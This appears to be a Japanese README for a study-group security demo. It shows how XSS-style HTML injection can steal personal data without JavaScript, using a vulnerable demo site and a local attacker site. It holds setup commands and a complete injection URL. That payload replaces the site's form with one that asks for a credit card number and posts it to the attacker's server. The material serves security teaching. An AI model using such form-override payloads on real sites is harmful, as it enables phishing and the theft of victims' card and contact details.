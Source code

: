 # JSなしで個人情報を盗まれる例

を説明するデモです．

## 状況

XSS (_クロス_ サイト スクリプティング) の性質上，localhostの他にも別サイトが必要でした．

<dl>
  <dt>http://脆弱サイト.com:5000</dt>
  <dd>脆弱性を持ったサイト(以下，脆弱サイト)．名前とメールアドレスを打たせるフォームがある．</dd>

  <dt>http://localhost:5000</dt>
  <dd>攻撃者の用意したサイト(以下，攻撃者サイト) ．脆弱サイトのフォームを上書きして，クレカ番号まで入力させた結果を受け取る</dd>

  <dt>被害者</dt>
  <dd>脆弱サイトのユーザ．個人情報を盗まれてしまう．</dd>
</dl>

## 脆弱サイトをいじってみる

```bash
$ google-chrome http://脆弱サイト.com:8000
```

1. `/` において，名前とメールアドレスを入力
1. `/register` にて，「登録されました」と表示されることを確認

## 攻撃手順

### 攻撃者サイトを準備

```bash
$ cd 20131117-tokumaru-benkyokai/sample-sites/attacker-sites/ex01_FormOverride
$ carton install  # 大体5分以上かかります・・・・
$ carton exec perl -Ilib script/ex01_formoverride-server
$ google-chrome http://localhost:5000
```

### フォームが上書きされた脆弱サイトを開く

```bash
$ google-chrome --disable-xss-auditor 'http://脆弱サイト.com:5000/?name="></form><form action=http://localhost:5000/ method=POST>クレジットカード番号<input name=credit><br><input type=submit></form><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>'
```

「送信」ボタンを押すと，個人情報が盗まれる
